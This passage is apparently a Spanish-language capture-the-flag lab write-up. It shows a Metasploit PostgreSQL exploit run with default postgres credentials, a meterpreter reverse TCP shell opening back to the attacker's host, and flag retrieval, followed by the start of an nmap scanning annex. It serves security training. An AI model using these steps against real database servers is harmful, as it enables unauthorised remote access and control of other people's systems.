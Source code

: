 ### Ejercicio 3

Utilizando un «exploit» de MFS y las credenciales (usuario y contraseña) obtenidas anteriormente para Postgresql, encuentra la «flag2» e indica su valor.

```bash
msf6 > use exploit/linux/postgres/postgres_payload
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(linux/postgres/postgres_payload) > set RHOST 198.0.2.6
RHOST => 198.0.2.6
msf6 exploit(linux/postgres/postgres_payload) > set RPORT 5432
RPORT => 5432
msf6 exploit(linux/postgres/postgres_payload) > set LHOST 198.0.2.4
LHOST => 198.0.2.4
msf6 exploit(linux/postgres/postgres_payload) > set USERNAME postgres
USERNAME => postgres
msf6 exploit(linux/postgres/postgres_payload) > set PASSWORD postgres
PASSWORD => postgres
msf6 exploit(linux/postgres/postgres_payload) > exploit

[*] Started reverse TCP handler on 198.0.2.4:4444
[*] 198.0.2.6:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/QKvaYaFX.so, should be cleaned up automatically
[*] Sending stage (1017704 bytes) to 198.0.2.6
[*] Meterpreter session 1 opened (198.0.2.4:4444 -> 198.0.2.6:47791) at 2025-10-15 10:42:40 +0200

meterpreter > cat flag2.txt

----------------------------------------------------
   ** La desconfianza es la madre de la seguridad **

                    zero trust!
----------------------------------------------------
```

### ANEXO de nmap

#### Sondeo de puertos con nmap

1. Escaneo básico por nombre o IP

```bash
nmap scanme.nmap.org
nmap 192.168.1.1-3
nmap 192.168.1.1,4,22,100
nmap 192.168.1.1 192.168.1.2
nmap -iL lista.txt
```

Escanea el host o rango indicado para detectar puertos y servicios abiertos.

2. Escaneo con ping tipo ARP
